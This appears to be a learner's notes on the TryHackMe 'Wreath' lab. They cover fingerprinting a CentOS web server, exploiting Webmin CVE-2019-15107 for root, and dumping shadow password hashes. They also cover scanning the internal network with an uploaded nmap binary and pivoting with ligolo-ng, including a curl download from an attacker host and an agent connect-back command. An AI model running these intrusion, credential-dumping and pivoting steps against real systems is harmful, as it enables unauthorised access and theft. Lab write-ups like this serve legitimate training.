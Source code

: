 
KISS = Keep It Simple Stupid

LOTL = Living Off The Land


We know that .200 is Linux from (wappalyzer aka Centos) or whatweb etc......
See i am just mixing my OSINT website skills with enumeration to confirm that it's CentOS
![[Pasted image 20240806021754.png]]


```
ttps://thomaswreath.thm [200 OK] Apache[2.4.37], Bootstrap, Country[RESERVED][ZZ], Email[#,me@thomaswreath.thm], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1c], IP[10.200.87.200], JQuery[2.1.4], OpenSSL[1.1.1c], Script, Title[Thomas Wreath | Developer], X-UA-Compatible[IE=edge]
```

Where i got stuck was when i open the service running on port 1000 (i.e. snet-sensor-mgmt)
Got Webmin so i was searching CVE and RCE for it and not snet-sensor-mgmt.

So both are same in the end we some to troubleshoot according the info we get
![[Pasted image 20240806022048.png]]


https://github.com/MuirlandOracle/CVE-2019-15107?tab=readme-ov-file
got the cve implementation in python it was also available with Metasploit version as well.

Let's see the privilege and depending on that we will see what we can do
BINGOOOOOOOOOOOOOOOOOO root user
```
id
```

Keys / password is  the things that come to my mind.

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```

```
cat ~/.ssh/id_rsa.pub
```


We got the access to the production sever through the ssh
![[Pasted image 20240806030713.png]]

What i would do is to run LPE usually when i get a low level user but it's already at root
So next thing that should come to my mind is there any other assets that we can access through .200 ??

for that we need nmap which is not possible on the asset so will simply transfer a precompiled binary of nmap to it.


```
./nmap-sar -sn 10.200.87.1-255
```

 `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

We got    .1     .100      .150       .200     .250  so from these we can minus   .1     .250     .200

So we have connection to .100 and .150 but i have scanned both and only .150 returned with open ports.


```
./nmap_sar -sS -p 1-15000 10.200.87.150
```
![[Pasted image 20240806201736.png]]

## Pivoting
So i decided to go this tool and will master it through practice. (i.e. upload the agent on the target device)
Download agent and proxy
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.3
```
tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

```
curl 10.50.88.33/agent -o agent
```

![[Pasted image 20240807132007.png]]


Set the Interface in Kali 
```
sudo ip tuntap add user root mode tun ligolo
```

```
sudo ip link set ligolo up
```

```
sudo ip route add 10.200.87.0/24 dev ligolo
```

![[Pasted image 20240807133010.png]]


Attacker
```
./proxy -selfcert 
```
![[Pasted image 20240807134145.png]]


Compromised Asset
```
./agent -connect 10.5.88.33:11601 -ignore-cert
```

